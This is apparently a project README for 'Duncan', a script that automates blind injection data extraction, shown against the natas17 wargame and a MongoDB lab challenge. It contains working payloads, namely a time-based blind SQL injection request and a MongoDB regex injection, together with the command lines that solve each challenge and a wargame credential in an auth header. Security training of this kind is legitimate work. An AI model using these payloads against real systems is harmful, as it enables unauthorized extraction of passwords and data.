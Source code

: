 # Duncan
Duncan is a script which helps automate the extraction of data using blind injection techiques. It does not help you with finding these it just helps with some of the boring stuff

## Why?
I did a quite a few challenges and based around this and got bored writing similar scripts

## Installation
1. Git clone the repo
2. `pip install doctopt`

## Usage
1. Capture a request using your method of choice (or just fabricate one in a text file). See below (Note: You need to put $$PAYLOAD$$ where you want the current extracted value inserting)
```
POST /index.php HTTP/1.1
Host: natas17.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://natas17.natas.labs.overthewire.org/
Cookie: __cfduid=d861fc1b6c46e687e61e35690b5f416611520867281; __utma=176859643.1818706855.1520867282.1520867282.1520867282.1; __utmb=176859643.2.10.1520867282; __utmc=176859643; __utmz=176859643.1520867282.1.1.utmcsr=google|utmccn=(organic)|utmcmd=organic|utmctr=(not%20provided); __utmt=1
Authorization: Basic bmF0YXMxNzo4UHMzSDBHV2JuNXJkOVM3R21BZGdRTmRraFBrcTljdw==
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded

username=natas18%22+and+password+like+binary+%27$$PAYLOAD$$%25%27+and+sleep%281%29+%23
```
2. Run duncan providing the url to use, the request file, a character set to use and an expression to determine the sucess or failure of the extraction. Optional you can give a data length to extract

```
$ ./duncan.py -r natas17.txt -u http://natas17.natas.labs.overthewire.org -c alpha -l 32 -e "r.elapsed.seconds >= 1"
```
The above command will solve the natas17 level from overthewire.org
```
./duncan.py -r mongo.txt -u http://ptl-b4178f0b-d147a1d2.libcurl.so -c "-0123456789abcdef" -l 20 -e "'search=admin' in r.text"
```
The above command will solve a mongodb injection challenge. The request file for this is below and was handcrafted in a text editor
```
GET /?search=admin%27+%26%26+this.password.match(/^$$PAYLOAD$$.*$/)%00 HTTP/1.1
Host: ptl-b4178f0b-d147a1d2.libcurl.so
```